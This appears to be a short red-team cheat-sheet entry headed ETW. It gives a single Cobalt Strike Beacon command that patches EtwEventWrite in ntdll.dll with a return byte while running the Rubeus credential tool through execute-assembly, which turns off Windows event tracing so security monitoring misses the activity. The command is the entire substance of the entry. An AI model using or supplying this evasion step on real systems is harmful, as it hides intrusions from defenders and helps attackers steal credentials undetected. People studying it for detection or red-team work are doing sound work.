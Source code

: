 # ETW

- Patch the EtwEventWrite exported function inside ntdll.dlls in Beacon

```
beacon> execute-assembly "PATCHES: ntdll.dll,EtwEventWrite,0,C3 ntdll.dll,EtwEventWrite,1,00" C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
```
